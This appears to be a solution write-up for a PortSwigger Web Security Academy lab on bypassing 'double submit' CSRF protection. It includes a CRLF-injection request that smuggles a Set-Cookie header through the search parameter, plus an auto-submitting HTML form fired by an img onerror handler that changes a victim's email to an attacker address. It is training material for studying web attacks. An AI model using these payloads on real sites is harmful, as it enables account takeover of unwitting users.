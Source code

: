 This lab's email change functionality is vulnerable to CSRF. It attempts to use the insecure "double submit" CSRF prevention technique.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: wiener:peter 

# Solution

Cookie Setting vulnerability at /search
Exploit /search to Set-Cookie
```http
GET /?search=test%0d%0aSet-Cookie:%20csrfKey=KEY%3b%20SameSite=None HTTP/2
Host: 0ae400b90394293180c40db000050085.web-security-academy.net
```

Response
```http
HTTP/2 200 OK
Set-Cookie: LastSearchTerm=test
Set-Cookie: csrfKey=KEY; SameSite=None; Secure; HttpOnly
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3460
```

CSRF validation requirements:
- Cookie: csrf and form's csrf value must be the same
- CSRF token value can be arbitrary as server doesn't seem to check against a valid pool

```html
<form id="autosubmit" action="https://0a63000c0441b35880cb6759000500c7.web-security-academy.net/my-account/change-email" enctype="application/x-www-form-urlencoded" method="POST">
 <input name="email" type="hidden" value="some-other-email@attacker.com" />
 <input type="hidden" name="csrf" value="forgedToken">
 <input type="submit" value="Submit Request" />
</form>

<img src="https://0a63000c0441b35880cb6759000500c7.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=forgedToken%3b%20SameSite=None" onerror="document.forms[0].submit()">
```